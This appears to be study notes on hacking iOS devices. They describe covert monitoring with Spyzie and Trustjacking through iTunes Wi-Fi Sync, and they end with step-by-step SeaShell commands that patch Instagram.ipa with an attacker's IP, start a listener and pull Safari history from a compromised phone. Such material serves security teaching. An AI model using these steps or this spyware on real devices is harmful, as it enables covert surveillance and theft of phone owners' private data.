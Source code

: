 
### **Hacking iOS Devices**

Attackers exploit vulnerabilities in iOS devices using tools and techniques that penetrate various layers of iOS security. This may include spyware, Trojans, and exploit chain tools.

#### **Spyzie Tool:**
- **Source:** [spyzie.io](https://spyzie.io)  
- **Capabilities:**
  - Remote hacking of SMS, call logs, app chats, and GPS.
  - Operates in invisible mode, even without jailbreaking.

#### **Other Exploit Methods:**
- Installation of malicious apps.
- Exploit chains targeting security vulnerabilities across iOS layers.

---

### **iOS Trustjacking**

Trustjacking exploits the **"iTunes Wi-Fi Sync"** feature to remotely access sensitive information on an iOS device without the victim's knowledge. 

**Mechanism:**
1. **Setup:**
   - Victim connects their device to a trusted computer infected by an attacker.
   - A dialog box prompts the victim to select "Trust" or "Don’t Trust."
   - Upon clicking "Trust," the computer establishes a connection to the device.
2. **Exploitation:**
   - Once the connection is established and iTunes Wi-Fi Sync is enabled, the attacker can:
     - Monitor device activity remotely.
     - Access messages, emails, and sensitive data.
     - Replace apps with malicious versions.
     - Backup or restore the device to extract deleted data like SMS history or photos.
3. **Persistence:**
   - The connection remains active until the victim resets the connection settings, even if the devices are physically disconnected.

---

### **Post-Exploitation Using SeaShell Framework**

SeaShell is an iOS post-exploitation framework that enables attackers to exploit **CoreTrust vulnerabilities** for unauthorized software execution and remote control of compromised devices.

**Steps to Use SeaShell:**
1. Launch the framework:
   ```bash
   seashell
   ```
2. Patch an IPA file with the attacker’s IP and port:
   ```bash
   ipa patch Instagram.ipa
   ```
3. Start a TCP listener on the specified host and port:
   ```bash
   listener on <IP address> <Port no>
   ```
4. Establish remote interaction with the target device:
   ```bash
   devices -i <id>
   ```
5. Access sensitive information, such as web browsing history:
   ```bash
   safari_history
   ```

---